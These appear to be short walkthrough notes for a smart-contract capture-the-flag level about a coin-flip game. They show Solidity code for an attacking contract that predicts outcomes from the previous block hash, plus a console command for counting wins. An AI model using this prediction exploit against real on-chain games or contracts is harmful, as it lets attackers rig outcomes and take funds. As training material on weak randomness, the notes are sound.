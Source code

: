- Understood that the contract depends on previous block hash for randomness

- The value will be accessible before the transaction completes, which means we can replicate the logic and guess correctly

- We can create an exploit contract that repeats the same logic , makes guesses and send the guess to the CoinFlip contract

```
uint256 blockValue = uint256(blockhash(block.number - 1));

uint256 coinFlip = blockValue / FACTOR;

bool side = coinFlip == 1;

coinFlipContract.flip(side);

```

- We can call the flip() method by waiting 15 seconds each

- We can check how many wins we have accumulated by

`
await contract.consecutiveWins()).toString();
`

-Once we have hit 10 consecutive wins, we can submit the instance
